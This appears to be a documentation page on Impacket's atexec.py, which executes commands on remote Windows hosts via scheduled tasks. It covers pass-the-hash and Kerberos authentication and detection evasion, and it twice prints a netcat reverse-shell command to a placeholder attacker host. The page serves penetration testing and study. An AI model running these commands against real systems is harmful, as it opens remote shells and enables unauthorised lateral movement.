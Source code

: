 # atexec.py

[atexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py) can be used to create and run an immediate scheduled task on a remote target via SMB in order to execute commands on a target system. It works only on version of Windows higher than Vista.&#x20;

The command to execute in the scheduled task must be provided to the script as a positional argument. The command's output can then be retrieved in a `.tmp` file with the same name as the scheduled task in `C:\Windows\Temp`.

## Commons

It has the following generic command line arguments, similar to many other tools:

* required positional argument #1: `[[domain/]username[:password]@]<targetName or address>` (e.g. `domain.local/user@dc01`, `domain/user:password@10.10.0.1`).

![required positional argument format](<../../.gitbook/assets/impacket\_positional\_arg-with target.png>)

* `-hashes`: the LM and/or NT hash to use for a [pass-the-hash](https://www.thehacker.recipes/ad/movement/ntlm/pth) (NTLM). The format is as follows: `[LMhash]:NThash` (the LM hash is optional, the NT hash must be prepended with a colon (`:`).
* `-aesKey`: the AES128 or AES256 hexadecimal long-term key to use for a [pass-the-key](https://www.thehacker.recipes/ad/movement/kerberos/ptk) authentication (Kerberos).
* `-k`: this flag must be set when authenticating using Kerberos. The utility will try to grab credentials from a Ccache file which path must be set in the `KRB5CCNAME` environment variable. In this case, the utility will do [pass-the-cache](https://www.thehacker.recipes/ad/movement/kerberos/ptc). If valid credentials cannot be found or if the `KRB5CCNAME` variable is not or wrongly set, the utility will use the password specified in the positional argument for plaintext Kerberos authentication, or the NT hash (i.e. RC4 long-term key) in the `-hashes` argument for [overpass-the-hash](https://www.thehacker.recipes/ad/movement/kerberos/opth). A Kirbi file could also be converted to a Ccache file using [ticketConverter.py](ticketconverter.py.md) in order to be used by the utility (indirect [pass-the-ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt)).
* `-no-pass`: this flag must be set when an empty password will by used, or no password at all. Without this flag, the user will be prompted for a password when running the utility. This flag is especially useful when using `-k`.
* `-dc-ip`: IP address of the domain controller. If omitted, the positional argument's domain part will be used (in that case, it must be a Fully-Qualified-Domain-Name (FQDN)).
* `-debug`: with this flag set, the utility will be more verbose and will possibly print useful information for debug purposes. With this flag set, the utility will also print tracebacks.
* `-ts`: with this flag set, the utility will prepend all output with a timestamp.

## Specificities

It also has the following specific command line arguments:

* required positional argument #2: command to execute on the target system (e.g. `whoami` or `'powershell -c "nc.exe attacker_ip listener_port -e cmd.exe"'`)
* `-session-id`: executes the scheduled task in the context of a specific existing logon session without using `cmd.exe`. If omitted, the session 0 will be used.
* `-silentcommand`: avoid using `cmd.exe` to run the specified command. The scheduled task will run the specified command without prepending `cmd.exe /C` (e.g. `C:\Windows\System32\hostname.exe` will be executed instead of `cmd.exe /C 'hostname'`). It is useful to reduce blue team detection, however no output is available.&#x20;
* `-codec`: set target output encoding to a specific value. If errors are detected, run `chcp.com` on the target, map the result with [the python documentation](https://docs.python.org/3/library/codecs.html#standard-encodings), and then execute atexec.py again with `-codec` and the corresponding codec. If omitted, `utf-8` will be used (e.g. for French systems, the `cp850` codec can be used)
* `-keytab`: authenticate using Kerberos keys from a KEYTAB file.

```bash
# with cleartext credentials
atexec.py 'DOMAIN'/'USER':'PASSWORD'@'target_ip' whoami

# pass-the-hash (with an NT hash)
atexec.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'target_ip' whoami

# kerberos ticket in memory
atexec.py -no-pass -k 'DOMAIN'/'USER'@'target_ip' 'powershell -c "nc.exe attacker_ip 4545 -e cmd.exe"'
```
